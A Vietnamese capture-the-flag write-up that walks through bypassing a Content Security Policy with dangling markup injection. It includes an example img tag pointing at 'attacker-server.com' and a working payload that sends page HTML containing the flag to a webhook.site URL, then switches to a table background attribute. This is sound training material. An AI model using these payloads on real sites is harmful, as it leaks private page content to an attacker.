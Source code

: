 ```diff  
-  Web -  Client Challenges 
```

## 2. CSP Bypass -  Dangling markup 2 [50 Points]

  - Cũng như challenge trên, ta có trang web như sau

    ![2](img/2.jpg)

  - Trang web sẽ hiện thị ra dòng chữ **Welcome** cùng với các ký tự mà ta nhập vào

    ![2-1](img/2-1.jpg)

  - Thử với payload ```Reflect XSS``` đơn giản ta thấy nó bị chặn bởi **Content Security Policy**

    ![2-2](img/2-2.jpg)

  - Kiểm tra CSP của trang ta thấy nó không cho phép thực thi script trong trang (giá trị none nghĩa là nó không fetch dữ liệu script từ bất kỳ nguồn nào hết)

    ![2-3](img/2-3.jpg)

  - Thử kiểm tra độ an toàn của CSP bằng trang web [CSP Evaluator](https://csp-evaluator.withgoogle.com/) ta có kết quả như sau

    ![2-4](img/2-4.jpg)

  - Như hình trên, ta sẽ thấy rằng tất cả các Policy đều an toàn, chỉ có dòng cuối gợi ý cho ta về DOM-Based XSS. Thử payload DOM-Based XSS ta thấy có thể khai thác được

    ![2-5](img/2-5.jpg)

  - Tới đây, dựa vào tiêu đề và gợi ý trên, ta có thể biết rằng đây là DOM-Based XSS dựa vào kỹ thuật *Dangling Markup* . Sau khi search google về kỹ thuật này, ta có thể thấy nó được mô tả chi tiết ở [đây](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) gồm cả khái niệm và cách khai thác.

  - Cụ thể, *Dangling markup* là khi attacker chèn 1 thẻ html vào DOM mà không đóng các attribute của thẻ đó lại, để nó 'treo lủng lẳng' như sau:

    ```html 
    <img src='attacker-server.com/
    ```  

    Khi trình duyệt render phản hồi, nó sẽ duyệt các ký tự tiếp theo của thẻ trên, đến khi gặp dấu single quote (```'```) tiếp theo thì dừng lại, các ký tự vừa được duyệt sẽ trở thành một phần của đường dẫn cho thuộc tính ```src```. Khi giao diện được render, request từ ```src``` được gửi tới server của attacker, họ sẽ đọc được 1 phần nội dung của trang web mà đáng ra họ không thể thấy.

  - Quay lại vấn đề cũ, để thực thi được DOM-Based XSS và gửi request ra ngoài, ta áp dụng **Dangling markup** sử dụng một thẻ html nào đó có thể gửi request tới đường dẫn chỉ định. 

    Ta thử với thẻ ```img``` và thấy rằng nó gửi một request tới webhook của mình kèm theo tham số là chuỗi html đằng sau 
    ```Payload: </h1> <img src='https://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?
    ```
    Giải thích payload:
    - Phần </h1> là để bypass thẻ <h1> sẵn có của DOM mà ta inject
    - Thẻ img em áp dụng Dangling Markup, phải sử dụng Single Quote thay vì Double Quote vì ta mong muốn đọc được nội dung đến dấu ' tiếp theo (chỗ icon) chứ không phải dấu " tiếp theo -> Nhằm mục đích đọc được đoạn có chứa Flag
    Kết quả như sau

    ![2-6](img/2-6.jpg)

  - Vào phần ***fill in this form*** và gửi link vulnerable trên đến con bot, khi nó mở đường link thì thẻ ```img``` sẽ tự động gửi request tới webhook của chúng ta, kèm theo chuỗi html đằng sau. Nhờ đó ta có thể thấy được đoạn html chứa flag mà bot thấy được.

  - Tuy nhiên, đợi 10p vẫn không thấy request tới, em đã kiểm tra lại và thấy thuộc tính ```src``` không nhận ký tự xuống dòng 

    ![2-7](img/2-7.jpg)

  - Em đã tìm kiếm xem còn thuộc tính nào tự động gửi request tương tự src không, thì tìm thấy được thuộc tính background trong table

    ![2-8](img/2-8.jpg)

  - Test thử và thấy nó nhận cả các ký tự xuống dòng làm đường dẫn

    ![2-9](img/2-9.jpg)

  - Cuối cùng ta gửi payload lại và nhận được flag như ta tính.

    ![2-10](img/2-10.jpg)



```diff
- Flag: D4NGL1NG_M4RKUP_W1TH_CHR0ME_NO_N3W_LINE
```

